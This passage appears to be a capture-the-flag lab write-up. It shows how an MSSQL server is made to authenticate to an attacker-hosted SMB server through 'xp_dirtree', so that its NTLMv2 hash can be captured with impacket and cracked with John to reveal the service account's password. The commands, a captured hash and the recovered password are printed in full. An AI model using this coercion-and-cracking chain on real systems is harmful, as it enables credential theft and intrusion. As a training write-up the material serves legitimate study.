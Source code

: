 ### Man in the middle
---
In this attack, we take advantage of a vulnerability in the SMB protocol to intercept NTLMv2 authentication between the MSSQL server and a shared resource on the network. By performing a Man-in-the-Middle attack, we make the SQL server connect to our SMB server, allowing us to capture the NTLMv2 hashes generated during the authentication process. These hashes can later be used to attempt to obtain the user's credentials

**Using `impacket-smbserver.py`:**

We use **`impacket-smbserver.py`**, a tool from the **Impacket** suite, to create an SMB server that listens on the network. This allows us to emulate a shared resource that the MSSQL server will try to access.

````powershell
❯ impacket-smbserver share /tmp/share -ip 10.10.14.9 -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.202,50679)
[*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
[*] User DC\sql_svc authenticated successfully
[*] sql_svc::sequel:aaaaaaaaaaaaaaaa:eb6864ce10959cf41bc5eb32bccd4f57:010100000000000000eec3f0b074db01c48ff1aa017ac5c30000000001001000750045006f004b004f0054005600480003001000750045006f004b004f00540056004800020010006a0056004b0077006800470067005000040010006a0056004b00770068004700670050000700080000eec3f0b074db01060004000200000008003000300000000000000000000000003000007d664fa576d0164d41849d1831c9f2a6bf2b1cc02413399bc3285686225f0db80a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0039000000000000000000
[*] Closing down connection (10.10.11.202,50679)
````

**SQL Command `EXEC xp_dirtree`:**

To force the SQL server to connect to our SMB server, we execute the following SQL command on the victim machine:

````powershell
QL (PublicUser  guest@master)> EXEC xp_dirtree '\\10.10.14.9\share', 1, 1
subdirectory   depth   file   
------------   -----   ----   
SQL (PublicUser  guest@master)> 
````

### Cracking the hash NTLMv2
---
We copied the entire NTLMv2 hash and told John to crack it for us.

````bash
❯ echo 'sql_svc::sequel:aaaaaaaaaaaaaaaa:80ec9393a044d48bdbf4fda625cab4c6:0101000000000000004b6972b474db0120c5f8015bd510e30000000001001000640050004b0065004f00470077006b0003001000640050004b0065004f00470077006b00020010006200750067006600720071004e007000040010006200750067006600720071004e00700007000800004b6972b474db01060004000200000008003000300000000000000000000000003000007d664fa576d0164d41849d1831c9f2a6bf2b1cc02413399bc3285686225f0db80a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0039000000000000000000' > ntlmv2.txt

❯ john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt ntlmv2.txt

Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REGGIE1234ronnie (sql_svc)     
````